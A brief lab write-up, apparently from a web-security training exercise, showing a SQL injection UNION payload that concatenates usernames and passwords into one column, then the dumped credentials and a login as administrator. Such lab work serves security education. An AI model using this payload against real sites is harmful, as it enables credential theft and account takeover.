


# Lab: SQL injection UNION attack, retrieving multiple values in a single column

**Vulnerability:** Product category filter (only one usable text column)

**Goal:** Retrieve all usernames and passwords through a single column, then log in as administrator

## Steps

1. Since only one column accepts text, concatenate `username` and `password` together with a separator using `||`:
   ```
   ' UNION SELECT NULL, username || '~' || password FROM users--
   ```
   

## Result

```
administrator~lsu3kd6xkjkl7yvcbuna
carlos~aczxxda2nyhk73vvrov8
wiener~q19orl43xh5c2yipujms
```

Logged in as `administrator` using the extracted credentials.



✅ **Lab solved**
